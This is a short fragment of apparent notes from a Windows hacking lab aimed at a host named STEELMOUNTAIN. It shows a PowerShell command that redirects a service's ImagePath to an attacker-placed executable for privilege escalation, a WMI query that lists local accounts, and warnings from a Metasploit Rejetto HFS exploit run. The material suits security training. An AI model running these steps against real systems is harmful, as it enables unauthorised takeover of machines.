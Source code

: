 
NOK: Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\AdvancedSystemCareService9" -Name ImagePath -Value "C:\temp\Advanced.exe"



Get-WmiObject -ComputerName STEELMOUNTAIN -Class Win32_UserAccount -Filter "LocalAccount=True"



/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/lib/rex/proto/http/client.rb:96: warning: deprecated Object#=~ is called on FalseClass; it always returns nil
